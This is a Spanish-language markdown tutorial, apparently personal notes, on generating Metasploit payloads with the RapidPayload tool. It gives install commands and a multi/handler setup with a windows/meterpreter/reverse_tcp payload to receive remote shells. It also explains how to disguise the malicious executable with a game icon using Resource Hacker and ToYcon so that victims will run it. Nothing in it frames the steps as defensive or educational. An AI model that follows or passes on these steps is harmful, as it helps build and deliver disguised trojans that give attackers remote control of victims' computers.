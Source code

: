 # Payloads
Es un generador de carga útil (Payload) de Metasploit que permite generar rápidamente una carga útil para Windows, Linux y Android.

El proyecto se encuentra disponible en github, para obtenerlo únicamente se debe clonar el siguiente repositorio:

* https://github.com/AngelSecurityTeam/RapidPayload.git

La instalación de Rapid Payload es sencilla únicamente debemos contar con los siguientes requisitos:

* OpenJDK 8 (JAVA) , or superiors versions .
* Metasploit
* Apktool
* Python3
* Wine

Todos los requerimientos que se necesitan los encontramos en Kali Linux, si se utiliza  una versión anterior a la 20.2 es posible que sea necesario instalar python 3.


El proceso de instalación es bastante simple, únicamente debemos correr los siguientes comandos en el orden que se muestran:

### Tipos de Payloads
* Singles: son unicos y completamente independientes. Pueden ser usadsos sin la necesidad de metasploit
* Stangers: estos configuran una concexion de red entre el atacante y la victima. Son pequeños y confiables
* Stages: son compenentes que se descargan por los modulos Stagers. Proporcionan funciones avanzadas como meterpreter, inyeccion VNC 

### Paso a paso 
cd RapidPayload
bash install.sh
python3 RapidPayload.py

### Dentro de metasploit y con el archivo .exe (malisioso) creada usar el siguiente comando 
* use exploit/multi/handler
* set payload windows/meterpreter/reverse_tcp
* set lhost IP LOCAL 
* set lport MISMO PUERTO DEL ARCHIVO MALISIOSO CREADO
* options (para chequear)
* exploit -j

### Para el archivo malisioso
* Con el programa **Resource Hacker** y con **ToYcon**
* Buacar iconos o imagenes por ejemplo del juego LOL
* Con ToYcon genero que esa foto sea un logo
* Con Resource Hacker la uso para ponerla arriba del archivo malisioso

Una vez que se ha instalado la herramienta entonces podremos mandarla a llamar y hacer uso de ella.

# Resource hacker 
Es una aplicación freeware de extracción de recursos para Windows. Se usa para modificar elementos de programas o del sistema operativo, como iconos, extrayendo recursos de programas ejecutables, bibliotecas de enlace dinámico, y ficheros de recursos.

La herramienta está disponible para su instalación en sistema operativo Windows  y Linux. En el caso de Linux deberá ser ejecutado mediante el complemento “wine”.


* http://www.angusj.com/resourcehacker/

## ¿Cómo instalar resource hacker?
Instalación en entorno Windows:

El proceso de instalación es bastante sencillo, únicamente se debe seguir el paso a paso del asistente y en unos pocos clics el programa estará instalado y listo para utilizarse.



















